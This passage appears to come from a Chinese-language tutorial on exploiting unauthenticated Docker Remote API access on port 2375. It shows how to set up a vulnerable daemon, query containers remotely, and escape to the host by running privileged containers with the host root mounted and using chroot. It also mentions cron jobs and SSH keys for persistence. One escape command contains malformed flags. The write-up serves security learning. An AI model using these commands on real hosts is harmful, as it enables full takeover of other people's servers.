 ![](https://cdn.nlark.com/yuque/0/2023/png/36190252/1702648986785-fb06f4b8-a7b9-4ce7-ba65-a47a1018d97e.png)

我们使用第一种方式:

![](https://cdn.nlark.com/yuque/0/2023/jpeg/36190252/1702649143487-8bcba996-957c-46de-a9cb-49dfb504c27c.jpeg)

或者使用wget,这里一般有两种情况,如果结果为404,则说明漏洞存在

![](https://cdn.nlark.com/yuque/0/2023/png/36190252/1702649305842-c4e8f428-df29-481b-a40c-e563f50fa34b.png)

![](https://cdn.nlark.com/yuque/0/2023/png/36190252/1702650675649-4326c879-f938-42e8-a2d5-32a18b9c0272.png)

环境搭建

将 docker 守护进程监听在 0.0.0.0

```php
dockerd -H unix:///var/run/docker.sock -H 0.0.0.0:2375
```

![](https://cdn.nlark.com/yuque/0/2023/png/36190252/1702650562158-1d6b3f2a-ea8b-4dfb-bb83-d61207b5552e.png)

能做什么?

列出容器信息

```php
curl http://<target>:2375/containers/json
```

查看容器

```php
docker -H tcp://<target>:2375 ps -a
```

如何逃逸?  
这里介绍两种方法--其本质都是创建一个拥有特权并且挂载宿主机/目录的容器

1.新运行一个容器，挂载点设置为服务器的根目录挂载至/mnt目录下。

```php
docker -H tcp://127.0.0.1:2375 run -it -v /:/mnt nginx:latest /bin/bash
```

接下来的操作就十分简单了,这里不多赘述,我们可以写计划任务,公私钥等等

![](https://cdn.nlark.com/yuque/0/2023/png/36190252/1702656581206-016a827d-4a0b-4789-8c6a-136975e6249a.png)

2.这里直接上操作

```php
#连接2375端口
export DOCKER_HOST="tcp://127.0.0.1:2375"
#创建挂载宿主机根目录的容器
docker run --rm -it --privileged -net=host -v /: /tmp/docker alpine
cd /tmp/docker
#通过chroot 切换bash
chroot ./ bash
```
